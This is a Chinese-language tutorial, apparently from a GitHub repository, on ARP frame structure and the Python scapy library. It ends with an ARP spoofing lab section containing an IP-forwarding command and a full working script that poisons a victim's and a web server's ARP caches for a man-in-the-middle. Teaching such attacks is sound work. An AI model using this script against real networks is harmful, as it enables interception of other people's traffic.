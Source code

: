 # python scapy库


## 基础知识
####  ARP帧结构
![arp_packet_struct.png](./imgs/arp_packet_struct.png)
>以太网头部  
>>以太网目的地址： 6字节（48位）的目的地MAC地址数值  
>>以太网源地址：6字节报文发送者的MAC地址数值  
>>帧类型：表示后面的是什么数据。ARP报文为0x806  
>  
>ARP报文
>>硬件类型：表示硬件地址的类型，ARP报文中使用1，代表MAC地址  
>>协议类型：表示要映射的协议地址类型。0x0800即表示IP地址。  
>>硬件地址长度：地址长度，单位为字节。硬件地址长度为6字节  
>>协议地址长度：地址长度，单位为字节。IP地址长度为4字节  
>>op(opration code)：操作码。1表示ARP请求报文，2表示ARP回应报文。RARP的请求和回应分别为3和4  
>>发送端以太网地址：发送者的以太网地址  
>>发送端IP地址：发送者的IP地址  
>>目的以太网地址： 接收ARP包的主机。当报文为请求的时候，可以不填
>>目的IP地址：接收ARP包的主机的IP地址。当报文为请求的时候，为被查询者的IP地址  

>ARP请求填充：
>>以太网头部：以太网目的地址=广播地址，以太网源地址=本机MAC地址  
>>
>>ARP报文：op=1，发送端以太网地址=本机MAC地址，发送端IP地址=本机IP地址， 目的以太网地址=空， 目的IP地址=想要查询的IP地址   
>
>ARP回应填充：
>>以太网头部：以太网目的地址=广播地址，以太网源地址=本机MAC地址   
>>
>>ARP报文：op=2，发送端以太网地址=告诉查询者的MAC地址，也就是本机MAC地址，发送端IP地址=查询者查询的IP地址，也就是本机IP地址， 目的以太网地址=查询者的MAC地址， 目的IP地址=查询者的IP地址  
>
>接收ARP回应报文的主机会将发送端以太网地址和发送端IP地址存入ARP缓存表中

#### scapy库  
使用scapy库可以构造基于OSI参考模型的数据包，常用的Layer有 Ether、IP、ARP()、UDP、TCP、UDP。这些协议的包如果不手动指定其中field的数值，scapy会自动根据环境进行指定。  
构造发送的包的时候，可以指定不只一个layer的包的数值。可以将多个layer的包的数值进行叠加:  
![](imgs/scapy_stackingLayers.png)




## scapy库的使用  
### 安装

```
$ sudo python -m pip install scapy
```



### 命名空间设定：from scapy.all import *

#### 发包  
函数：  
![](imgs/scapy_send_func.png)


常用函数：  
>send()发送网络层报文  (IP, ARP, etc.)   
>sr()发送网络层报文,并接收网络层报文  
>sr1()发送网络层报文，只接收第一个响应的网络层报文  
>sendp()发送链路层报文  (Ethernet, 802.3, etc.)  
>srp()发送链路层报文,并接收链路层报文  
>srp1()发送链路层报文，只接收第一个响应的报文  
>srloop()循环发送网络层报文，并打印结果  
>srploop()循环发送传输层报文，并打印结果  

指定发包接口:  
conf.iface="网卡名称"
#### 构造IP数据包
```
IP(dst=目标IP地址或主机名(会自动进行DNS解析))
```
#### 构造ARP数据包
```python
ARP(op=操作码, psrc=发送端IP地址字符串, hwsrc=发送端MAC地址字符串, pdst=目的IP地址字符串, hwdst=目的MAC地址字符串)
```
## ARP协议利用
攻击者通过构造ARP报文，可修改目标主机中的ARP动态表项。

#### ARP欺骗实战
网络拓扑：  
web服务器 192.168.1.10 00:0c:29:12:c4:1e
受害者电脑 192.168.1.20 00:0c:29:8f:b6:a5
攻击者电脑 192.168.1.86 00:0c:29:ec:2e:d5  

攻击者：  
开启tcp转发  
\# echo "1" > /proc/sys/net/ipv4/ip_forward

python脚本
```python
#!/usr/bin/python2
#coding:utf-8

from scapy.all import *
import time

conf.iface="enp2s0f1"

victim = {
        "ip": "192.168.1.20",
        "mac": ""
        }

web_server = {
        "ip": "192.168.1.10",
        "mac": ""
        }

self = {
        "ip": "192.168.1.86",
        "mac": str(Ether().hwsrc)
        }

# ask web server's MAC address
web_server["mac"] = sr1(ARP(pdst=web_server['ip'])).hwsrc
print 'web服务器硬件地址：' + web_server['mac']

# ask victim's MAC address
victim["mac"] = sr1(ARP(pdst=victim['ip'])).hwsrc
print '受害者硬件地址：' + victim['mac']

# start attack
try:
    print "attacking..."
    while True:
        sendp(Ether(dst=victim['mac'])/ARP(op=2, psrc=web_server['ip'], hwsrc=self['mac'], pdst=victim['ip'], hwdst=victim['mac']))
        sendp(Ether(dst=web_server['mac'])/ARP(op=2,psrc=victim['ip'], hwsrc=self['mac'], pdst=web_server['ip'], hwdst=web_server['mac']))
        time.sleep(2)
except KeyboardInterrupt:
    print "restore default mac mapping..."
    for i in range(0, 5):
        sendp(Ether(dst=victim['mac'])/ARP(op=2, psrc=web_server['ip'], hwsrc=web_server['mac'], pdst=victim['ip'], hwdst=victim['mac']))
        sendp(Ether(dst=web_server['mac'])/ARP(op=2,psrc=victim['ip'], hwsrc=victim['mac'], pdst=web_server['ip'], hwdst=web_server['mac']))
        time.sleep(2)

```



